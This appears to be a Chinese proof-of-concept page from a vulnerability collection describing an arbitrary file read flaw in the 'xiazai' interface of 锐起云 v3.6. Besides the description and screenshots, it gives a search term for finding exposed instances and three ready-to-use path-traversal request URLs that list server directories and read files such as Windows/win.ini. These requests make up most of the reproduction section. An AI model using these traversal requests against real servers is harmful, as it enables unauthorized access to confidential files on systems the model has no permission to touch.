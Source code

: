 # 锐起云 xiazai 任意文件读取漏洞

## 漏洞描述

锐起云 xiazai 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>锐起云 v3.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"锐起云"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1692239495468-467f771d-6d80-4a09-b9a0-b2bfd3f617ab.png)

![img](../../../.vuepress/public/img/1692264395187-adcf551b-bc30-496e-925b-bd38a20716a1.png)

验证POC

```plain
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

![img](../../../.vuepress/public/img/1692264749738-c04d5539-ac64-4ffe-b790-62db0da31ba1.png)